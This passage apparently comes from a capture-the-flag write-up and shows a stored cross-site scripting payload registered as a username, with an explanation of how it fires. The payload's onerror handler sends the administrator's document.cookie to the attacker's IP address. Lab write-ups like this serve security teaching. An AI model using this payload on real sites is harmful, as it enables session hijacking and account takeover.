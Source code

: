 ```
<img src="#" onerror="this.src='http://10.10.14.191/'+document.cookie" />
```

---

**What does this payload do?**

*When the website administrator receives our data, this payload will travel as the username.*

*If it is not properly sanitized, instead of displaying `<img src="#" onerror="this.src='http://10.10.14.191/'+document.cookie" />` as plain text, the browser might interpret it as `HTML` and attempt to load an image located at '#'. However, since '#' is not a valid path and there is no image file with that name, an error will occur, triggering the `onerror` event, which will set the image location to our machine’s address, with the session cookies as the path.*

*This way, the browser will make a request to our address, "sending" us the administrator's session cookie.*

---

We register and log in with the payload as `username`.

![register-payload](../../img/Cat/Register-payload.png)
